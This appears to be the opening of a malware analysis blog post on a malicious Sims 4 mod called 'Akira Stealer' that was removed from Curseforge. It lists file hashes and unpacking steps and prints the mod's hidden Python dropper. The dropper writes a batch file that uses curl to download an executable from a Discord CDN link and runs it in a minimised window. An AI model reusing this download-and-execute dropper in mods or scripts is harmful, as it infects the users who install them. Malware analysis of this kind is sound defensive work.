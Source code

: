 ```yaml
---
title: "Akira Stealer - The Sims 4 malware"
categories: "malware analysis"
tags: ["cryptocurrency","python","obfuscation","akira", "electron"]
---
```


# Stage 0: Introduction

A few weeks ago, a user tried uploading a malicious mod to the Curseforge platform. This mod was aimed at users playing the game "Sims 4". In cooperation with the Curseforge community, the Curseforge moderation team quickly removed the malicious mod from the platform.
I personally found this very interesting, and asked for a copy of the sample from my colleagues, so I could analyze it.

# Stage 1: packed Sims 4 mod

|Algorithm|Hash|
|---|---|
|Sha256Sum| `425f89a19d4fe862ae78bafa3a2f17bdbdb416a00e87de78d6d446e71b90abf6`|
|MD5Sum|`175735b51ecc5597bd657cba0348db93`|

## Unpacking the mod

sims mods (`ts4script` files) are basically just a python script and a `pyc` object file zipped together, so unpacking it is as simple as running `7z e Social_Events.ts4script`

```sh
$> file Social_Events.ts4script 
Social_Events.ts4script: Zip archive data, at least v2.0 to extract, compression method=deflate
```

The extracted mod contained a few files, including a python script that handled the injection of custom content into the main Sims 4 instance, and it is also the entry point for this sample:

## The Python script

The Python script itself seemed fairly normal for a Sims 4 mod, except for the fact that it contained the following bit of code before it starts the "mod" part of it:

```python
temp_dir = tempfile.gettempdir()
bat_file = os.path.join(temp_dir, "script.bat")
with open(bat_file, "w") as f:
 f.write("@echo\n")
 f.write("curl -s -o %temp%\sims4c.exe https://cdn.discordapp.com/attachments/1196086210670637076/1204192190151000145/sims4c.exe\n")
 f.write("%temp%\\sims4c.exe\n")
 f.write("exit\n")
process = subprocess.Popen(["start", "/B", "/min", "cmd.exe", "/C", bat_file], shell=True)
ctypes.windll.user32.ShowWindow(ctypes.windll.kernel32.GetConsoleWindow(), 6)
process.communicate()
```
